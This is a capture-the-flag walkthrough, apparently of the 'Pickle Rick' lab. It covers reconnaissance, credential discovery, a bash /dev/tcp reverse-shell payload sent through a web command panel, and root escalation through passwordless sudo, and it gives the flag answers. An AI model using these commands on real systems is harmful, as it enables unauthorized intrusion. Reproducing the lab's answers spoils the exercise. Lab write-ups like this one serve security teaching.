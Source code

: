 At the start, we access the target website and notice the landing page:  

![alt text](image.png)

Next, we inspect the page source to extract valuable information. In the page source, we quickly identify the username: 
<pre> R1ckRul3s </pre>  

We use nmap to scan the network and identify open ports on the target system:
```BASH
sudo nmap -sV -p- $ip
```

![alt text](image-1.png)

The scan reveals that only ports 22 (SSH) and 80 (HTTP) are open. Let's check robots.txt file with curl, which returns:

![alt text](image-3.png)
<pre>Wubbalubbadubdub</pre>

Use Gobuster to identify hidden directories. Run:
```BASH
gobuster dir -u "http://$ip/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```

![alt text](image-2.png)

The only discovered directory is `/assets`, which contains several JavaScript and CSS files. We then focus on login.php for further exploitation. 

![alt text](image-4.png)

<span style="line-height:0.5;">&nbsp;</span>

Navigating to: `$ip/login.php` reveals the login interface. Upon logging in with the previously extracted credentials, the site redirects us, but everything seems blocked except for a `commands` tab. This suggests that the application may be vulnerable to a reverse shell injection.

![alt text](image-5.png)

Start a Netcat listener on your attacker machine:
```BASH
nc -lvnp 4444
```
Then use the following payload to spawn a reverse shell:
```BASH
bash -c 'bash -i >& /dev/tcp/10.10.193.82/4444 0>&1'
```
![alt text](image-7.png)

After clicking execute (or triggering the payload), the reverse shell connects back to your Netcat listener. To stabilize the shell, execute within your Netcat session:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![alt text](image-8.png)

![alt text](image-9.png)

### What is the first ingredient that Rick needs?
<pre>mr. meeseek hair</pre>

Next, determine which users can execute commands with root privileges.
![alt text](image-10.png)

A quick inspection shows that the www-data user has full sudo access without a password:
`(ALL) NOPASSWD: ALL`

```BASH
sudo su -
```

![alt text](image-11.png)

### What is the last and final ingredient?

![alt text](image-12.png)

<pre>fleeb juice</pre>

### What is the second ingredient in Rick’s potion?  

![alt text](image-13.png)
 
<pre>jerry tear</pre>